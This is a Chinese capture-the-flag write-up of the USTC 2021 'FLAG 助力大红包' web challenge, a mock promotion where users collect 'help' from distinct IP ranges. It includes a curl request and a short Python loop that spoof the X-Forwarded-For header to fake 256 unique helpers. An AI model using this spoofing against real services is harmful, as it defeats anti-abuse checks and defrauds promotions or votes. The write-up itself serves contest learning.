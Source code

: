 ```yaml
---
title: Web - FLAG 助力大红包
description: 2021 | 中国科学技术大学第八届信息安全大赛 | Web
---
```


## 题目

“听说没？【大砍刀】平台又双叒做活动啦！参与活动就送 0.5 个 flag 呢，攒满 1 个 flag 即可免费提取！”

“还有这么好的事情？我也要参加！”

“快点吧！我已经拿到 flag 了呢！再不参加 flag 就要发完了呢。”

“那怎么才能参加呢？”

“这还不简单！点击下面的链接就行”

## 解题思路

- 类似于并夕夕的助力 23333 <br>
![大砍刀](img/flag_red_packet01.jpg)

- 主要是向助力链接发送含 IP 地址的 POST 请求
    ```bash
    curl '<invite-url>' -X POST --data-raw 'ip=xxx.xxx.xxx.xxx'
    ```

- 众所周知，同一用户不能重复助力，此处视同一 /8 地址为重复用户（还挺严格x）<br>
![失败！重复的 /8 地址](img/flag_red_packet02.jpg)

- 不能直接修改 POST 请求中的 IP 地址<br>
![失败！检测到前后端检测 IPv4 地址不匹配](img/flag_red_packet03.jpg)

- 服务端通过 HTTP 请求头中的 `X-Forwarded-For` 识别客户端的原始 IP，接下来就是伪造 IP 地址 ~~疯狂~~ 助力 🤪

    ```py
    import requests
    from time import sleep

    for i in range(256):
        ip = f'{i}.1.1.1'   # /8
        header = {
            'X-Forwarded-For': ip,
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36'
        }
        res = requests.post('<invite-url>', data=dict(ip=ip), headers=header).content.decode()
        sleep(2)
    ```

## 参考资料

- [X-Forwarded-For - Wikipedia](https://en.wikipedia.org/wiki/X-Forwarded-For)